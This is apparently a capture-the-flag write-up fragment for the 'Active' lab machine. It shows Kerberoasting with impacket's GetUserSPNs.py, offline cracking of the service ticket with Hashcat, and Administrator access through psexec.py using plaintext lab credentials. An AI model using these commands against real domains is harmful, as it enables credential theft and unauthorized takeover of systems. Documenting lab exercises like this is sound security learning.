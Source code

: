 **Here we make a request to the domain controller for a service ticket, and crack with Hashcat.**
```bash
psexec.py active.htb/svc_tgs:GPPstillStandingStrong2k18@$TARGET
```
The above does not work (Intentionally)
```bash
wget https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
```
```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip $TARGET -request
```
==Insert service ticket here!==
Crack it with Hashcat.
[[Hashcat]]
```bash
psexec.py active.htb/Administrator:Ticketmaster1968@$TARGET
```